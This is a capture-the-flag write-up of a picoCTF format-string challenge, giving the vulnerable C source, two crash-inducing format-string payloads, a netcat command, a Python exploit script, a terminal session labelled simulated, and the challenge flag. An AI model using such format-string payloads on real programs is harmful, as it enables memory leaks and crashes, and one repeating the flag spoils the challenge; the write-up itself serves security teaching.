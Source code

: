 # Challenge Description
Description: Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution
The program simulates a burger shop with two customers (Patrick and Bob). A flag buffer is read from flag.txt at program start and a custom SIGSEGV handler prints it:
```
void sigsegv_handler(int sig)
{
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
Key vulnerable lines:
scanf("%s", choice1);
int count = printf(choice1);
if (count > 2 * BUFSIZE) { serve_bob(); }
...
scanf("%s", choice2);
printf(choice2);
Both printf(choice1) and printf(choice2) pass user input directly as the format string → format string vulnerability.
```


Use a first input that is a valid menu item but contains a format specifier that makes printf print many characters (so count > 64) to reach the second stage (serve_bob()).
In the second stage, provide a string with %s/other format specifiers so printf tries to dereference invalid pointers and causes a segmentation fault. The SIGSEGV handler then prints the flag.
Candidate payloads discovered from source menus:

```
Patrick’s menu contains Gr%114d_Cheese — %114d will expand and print many characters.
Bob’s menu contains Cla%sic_Che%s%steak — multiple %s will read memory as pointers and likely crash.
Steps to reproduce (manual)
Launch the service locally or connect to the remote instance:

Local: ./burger (ensure flag.txt is present)
Remote: nc mimas.picoctf.net 53816
When prompted for the first customer, enter:

Gr%114d_Cheese
This causes printf(choice1) to print >64 chars, so the program calls serve_bob().

When prompted for the second customer, enter:
Cla%sic_Che%s%steak
This should cause printf(choice2) to dereference bad memory and trigger a SIGSEGV. The SIGSEGV handler prints the flag buffer.
```

Automated exploit (short Python)
Save this as get_flag_short.py and run with python3 get_flag_short.py.

#!/usr/bin/env python3
# Minimal script to interact with remote challenge
```
import socket, time
HOST, PORT = "mimas.picoctf.net", 53816
P1, P2 = b"Gr%114d_Cheese\n", b"Cla%sic_Che%s%steak\n"
def recv_all(s, timeout=5):
    s.settimeout(0.5); end=time.time()+timeout; out=b""
    while time.time()<end:
        try: c=s.recv(4096)
        except socket.timeout: continue
        if not c: break
        out+=c
    return out
with socket.create_connection((HOST, PORT), timeout=8) as s:
    print(recv_all(s,3).decode(errors="ignore"), end="")
    s.sendall(P1); time.sleep(0.2)
    print(recv_all(s,3).decode(errors="ignore"), end="")
    s.sendall(P2)
    print(recv_all(s,4).decode(errors="ignore"), end="")
Example terminal session (EXPECTED / SIMULATED)
$ nc mimas.picoctf.net 53816
Welcome to our newly-opened burger place Pico 'n Patty!
Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers:
Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese

Good job! Patrick is happy!
Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop
Enter your recommendation: Cla%sic_Che%s%steak
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Concepts learnt:
Format String Vulnerabilities: Passing user input directly as the printf format string allows attackers to use % specifiers to read or write arbitrary memory, leak data, or cause crashes.
SIGSEGV Handler Abuse: The program registers a SIGSEGV handler that prints sensitive data.
Automating interactions: Using Python socket or pwntools to interact with remote services.

## Notes:
Why %114d? %Nd prints to a width of N characters, which helps satisfy the count > 64 check.
Triggering SIGSEGV with %s: %s expects a pointer; invalid pointers can cause a crash.
Alternative tangents: Could try %x/%p to leak memory or %n to write, but crashing was the simplest path here.

## Resources:
Format string primer and example writeups.
